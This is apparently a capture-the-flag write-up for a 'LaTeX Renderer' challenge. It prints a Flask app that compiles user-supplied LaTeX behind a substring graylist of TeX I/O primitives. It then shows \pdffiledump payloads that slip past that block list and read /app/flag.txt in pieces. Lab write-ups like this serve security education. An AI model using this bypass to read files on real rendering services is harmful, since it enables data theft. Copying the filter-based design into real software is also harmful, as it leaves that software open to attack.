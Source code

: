 # LaTeX Renderer

<figure><img src="../../../../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Flag @ /app/flag.txt</p></figcaption></figure>

### Source code



```python
import os
import re
import subprocess
from flask import Flask, request, send_file
import random
import string

app = Flask(__name__)


graylist = [
    "^^",
    "afterassignment",
    "aftergroup",
    "batchmode",
    "catcode",
    "closein",
    "closeout",
    "command",
    "document",
    "def",
    "errhelp",
    "errcontextlines",
    "errorstopmode",
    "every",
    "expand",
    "expandafter",
    "immediate",
    "include",
    "input",
    "jobname",
    "loop",
    "lowercase",
    "makeat",
    "meaning",
    "message",
    "named",
    "newhelp",
    "noexpand",
    "nonstopmode",
    "open",
    "output",
    "pagestyle",
    "package",
    "pathname",
    "read",
    "relax",
    "repeat",
    "shipout",
    "show",
    "scrollmode",
    "special",
    "syscall",
    "toks",
    "tracing",
    "typeout",
    "typein",
    "uppercase",
    "write",
]

wrapper = "\\documentclass[12pt]{article}\n\\usepackage[latin1]{inputenc}\n\\usepackage{amsmath}\n\\usepackage{amsfonts}\n\\usepackage{amssymb}\n\\usepackage[mathscr]{eucal}\n\\pagestyle{empty}"


def generate_random_string(length=5):
    """Generate a random string of a specified length."""
    letters = string.ascii_letters + string.digits
    return "".join(random.choice(letters) for _ in range(length))


@app.route("/", methods=["GET"])
def index():
    return "Welcome Hacker! go grab your easy win."


@app.route("/render", methods=["GET"])
def render_latex():
    try:
        latex = request.args.get("latex", "")

        for word in graylist:
            if word in latex:
                return {"error": f"Graylist word detected."}, 403

        latex = wrapper + "\n\\begin{document}\n" + latex + "\n\\end{document}"
        rand = generate_random_string()
        path = f"temp_{rand}"
        with open(f"{path}.tex", "w") as f:
            f.write(latex)

        subprocess.run(["latexmk", "-pdf", "-interaction=nonstopmode", f"{path}.tex"])

        return send_file(
            f"{path}.pdf", as_attachment=True, download_name="rendered_pdf.pdf"
        )

    except Exception:
        return {"error": "hmm amigo.."}, 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

### Payload



This task has filters that fobid us from reach I/O functions of LATEx

but \pdffiledump isn't graylisted

Crafting the payload&#x20;

<pre class="language-latex"><code class="lang-latex"><strong>\pdffiledump offset 0 length 1000 {/app/flag.txt}
</strong></code></pre>

<figure><img src="../../../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we got a part of the flag we need the missing piece

<figure><img src="../../../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Part II payload , added offset

```latex
\pdffiledump offset 30 length 1000 {/app/flag.txt}
```

<figure><img src="../../../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Boom

<figure><img src="../../../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>
